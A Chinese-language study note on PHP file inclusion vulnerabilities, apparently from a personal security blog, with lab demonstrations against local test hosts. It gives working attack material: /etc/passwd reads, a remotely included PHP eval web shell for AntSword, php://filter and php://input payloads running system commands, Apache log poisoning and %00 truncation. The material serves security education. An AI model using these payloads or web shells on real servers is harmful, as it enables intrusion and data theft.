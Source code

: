 ```yaml
---
title: 文件包含漏洞
date: 2022-03-23 8:48:54
updated: 2022-03-23 8:48:54
categories: notebook
tags: 文件包含
urlname:
keywords: 文件包含,include
---
```


## 文件包含漏洞

大多是Web语言都可以只用文件包含操作，其中PHP语言所提供的文件包含功能比较强大、灵活，所以包含漏洞经常出现在PHP语言中。但并不是只用PHP语言会出现包含漏洞

### PHP包含

四个函数：

include()、include_once()、require()、require()_once

* require：找不到被包含文件时会产生致命错误，并停止脚本

* include：找不到被包含文件时会产生警告，并继续执行脚本

* require_ocne：与require相似，区别是如果文件中的代码已经被包含了，则不会再次包含

* include_once：与include相似，区别是如果文件中的代码已经被包含了，则不会再次包含

  

本地包含：

#### 测试一

ArrayUtil.php:

```php
<?php
	function PrintArr($arr,$sp="-->",$lin="<br/>"){
		foreach($arr as $key => $value){
			echo "$key $sp $value $lin";
		}
	}
?>
```

test.php:

```php
<?php
	include("ArrayUtil.php");  		#包含文件ArrayUtil.php
	$arr = array("张三","李四","王五");
	PrintArr($arr,"==>");
?>
```

访问：http://127.0.0.1/test.php

![](https://s2.loli.net/2022/03/22/q7jheDfPdWaz4vr.png)

#### 测试二

phpinfo.txt:

```
<?php
	phpinfo();
?>
```

test.php:

```php
<?php
	include("phpinfo.txt");
?>
```

![](https://s2.loli.net/2022/03/22/B5jqn418vVm6UIS.png)

远程包含：

需要开启php.ini中的allow_url_include选项

![](https://s2.loli.net/2022/03/22/Mxl5FSWLgayzOKB.png)

#### 测试

hello.php:

```php
<?php
	echo "Hello world!!"
?>
```

test.php:

```php
<?php
	include($_GET['page']);
?>
```

http://127.0.0.1/test.php?page=http://127.0.0.1/hello.php

![](https://s2.loli.net/2022/03/22/AICVaUXzi6TO7hP.png)

其中，hello.php的后缀名换成txt等其他格式的后缀也可以成功实现远程包含

如果攻击者输入一个不存在的文件，php则会报错，在报错信息中会泄露网站的根目录

![](https://s2.loli.net/2022/03/22/4IOtdQJ6e3RAMBT.png)



### 几种常见的攻击方式

1. 读取敏感文件

   http://xxx.com/test.php?page=/etc/passwd

   ![](https://s2.loli.net/2022/03/22/4cAurDhxm5bBXOQ.png)

2. 远程包含shell

   test.php:

   ```php
   <?php
   	include($_GET['page']);
   ?>
   ```

   ehco.txt:

   ```php
   <?fputs(fopen("shell.php","w"),"<?php eval($_POST["hummer"]);?>")?>
   ```

   http://10.10.10.137/test.php?page=http://10.10.10.139/echo.txt

   

   测试未成功，在写入shell.php时，只能写入\<? php eval() ?\>

   但可以在远程主机上写一句话，通过远程包含，菜刀或者蚁剑也可以连接

   http://10.10.10.139/echo.txt：

   ```
   <?php eval($_POST['hummer']); ?>
   ```

   蚁剑连接：http://10.10.10.137/test.php?page=http://10.10.10.139/echo.txt

   ![](https://s2.loli.net/2022/03/22/pxaFQOIqyU37lP6.png)

   测试成功！



3. 配合文件上传

   上传图片，txt等格式的文件，通过文件包含，也可当做php代码执行。

4. 使用PHP封装协议

   ![](https://s2.loli.net/2022/03/22/MWIcLblpfEOYJFP.png)

   * 读取php文件

     使用条件：参数page被包含

     http://10.10.10.137/test.php?page=php://filter/read=convert.base64-encode/resource=test.php

     ![](https://s2.loli.net/2022/03/22/idjUBrvkyDNSFVp.png)

     base64解码：

     ![](https://s2.loli.net/2022/03/22/8YpuaXNSlCA31km.png)

     PHP://filter具体用法参考如下连接：

     [php://filter伪协议读取源码 | 信安小蚂蚁 (gitee.io)](https://mayi077.gitee.io/2020/08/09/phpfilter伪协议读取源码/)

   * 写文件：

     http://10.10.10.137/test.php?page=php://input

     利用POST方式传入内容：

     ![](https://s2.loli.net/2022/03/22/HIdWxY7lcfsLTEm.png)

     在这里可以执行任意系统命令：system('net user');等

     亦可以写入文件

     ```php
     <?fputs(fopen("shell.php","w"),"<?php phpinfo(); ?>")?>
     ```

     

   5. 包含Apache日志文件

      Apache运行后一般默认会生成两个日志文件（access.log和error.log），其中记录了客户端的每次请求以及 服务器响应的相关信息

      ![](https://s2.loli.net/2022/03/22/XokYMlzZvbhu5Cn.png)

      在找不到文件进行包含时，我们可以自己构造Apache日志，向里面写入我们的一句话木马：

      先发起请求：```http://10.10.10.137/test.php?page=<?php eval($_POST['hummer']); ?>```

      查看日志：

      ![](C:\Users\19026\Desktop\文件包含漏洞.assets\a2fSd89XFbHtvUK.png)

      发现被浏览器自动转码了

      为了防止被编码，可以用BurpSute绕过编码：

      ![](https://s2.loli.net/2022/03/22/XJaFYz8UfbL5CHh.png)

      再次查看Apache日志：

      ![](https://s2.loli.net/2022/03/22/29jc5Qamueo7F3w.png)

      已经成功绕过编码

   6. 截断包含

      很多情况下，程序员会通过固定扩展名的方式来修复PHP包含漏洞。

      代码段如下：

      ```php
      <?php
          if(isset($_GET['page'])){
              include $_GET['page']."php";
          }
      	else{
              include 'home.php';
          }
      ?>
      ```

      虽然这样可以抵挡一部分攻击，但并没有真正修复了包含漏洞，攻击者仍然可以采取截断的方法来突破这段代码。

      ```http://www.xsser/com/test.php?page=1.jpg%00```

      这用方法只适用于magic_quotes_gpc为Off的情况下，当php开启magic_quotes_gpc是，NULL（%00）会被转义